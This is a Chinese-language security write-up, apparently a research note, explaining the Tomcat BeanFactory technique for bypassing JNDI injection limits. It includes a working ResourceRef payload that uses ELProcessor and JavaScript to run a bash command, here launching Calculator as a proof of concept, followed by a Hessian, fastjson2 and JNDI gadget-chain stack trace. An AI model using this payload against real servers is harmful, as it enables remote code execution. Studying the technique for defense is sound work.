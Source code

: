 ### BeanFactory绕过原理

```java
EL和Groovy之所以能打是因为LDAP和RMI在收到服务端反序列化来的Reference对象后根据classFactory属性从本地classpath中实例化一个 ObjectFactory 对象，然后调用这个对象的 getObjectInstance 方法。

在Tomcat的catalina.jar中有一个org.apache.naming.factory.BeanFactory类，这个类会把Reference对象的className属性作为类名去调用无参构造方法实例化一个对象。然后再从Reference对象的Addrs参数集合中取得 AddrType 是 forceString 的 String 参数。

接着根据取到的 forceString 参数按照,逗号分割成多个要执行的方法。再按=等于号分割成 propName 和 param。

最后会根据 propName 作为方法名称去反射获取一个参数类型是 String.class的方法，并按照 param 从 Addrs 中取到的 String 对象作为参数去反射调用该方法。

而刚好javax.el.ELProcessor#eval和 groovy.lang.GroovyShell#evaluate这两个方法都是可以只传一个String参数就能够执行攻击代码，且依赖库比较常见所以被经常使用。
```

```java
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
        true, "org.apache.naming.factory.BeanFactory", null);
ref.add(new StringRefAddr("forceString", "x=eval"));

ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/bash','-c','/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\")"));
return ref
```

依照上面的原理解释，这段代码得到的ResourceRef对象在JNDI客户端处理时，实际上等价于下面这段代码。

```java
new javax.el.ELProcessor().eval("\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/bash','-c','/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\")")
```

参考文章：https://tttang.com/archive/1405/#toc_druid

```java
eval:54, ELProcessor (javax.el)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
getObjectInstance:211, BeanFactory (org.apache.naming.factory)
getObjectInstance:321, NamingManager (javax.naming.spi)
getContext:439, NamingManager (javax.naming.spi)
getTargetContext:55, ContinuationContext (javax.naming.spi)
getEnvironment:197, ContinuationContext (javax.naming.spi)
apply:-1, 1541049864 (javax.naming.spi.ContinuationDirContext$$Lambda$25)
getFieldValue:36, FieldWriterObjectFunc (com.alibaba.fastjson2.writer)
write:189, FieldWriterObject (com.alibaba.fastjson2.writer)
write:76, ObjectWriter2 (com.alibaba.fastjson2.writer)
write:548, ObjectWriterImplMap (com.alibaba.fastjson2.writer)
toJSONString:2388, JSON (com.alibaba.fastjson2)
toString:1028, JSONObject (com.alibaba.fastjson)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
expect:3757, Hessian2Input (com.caucho.hessian.io)
readString:1979, Hessian2Input (com.caucho.hessian.io)
readObjectDefinition:2960, Hessian2Input (com.caucho.hessian.io)
readObject:2893, Hessian2Input (com.caucho.hessian.io)
```
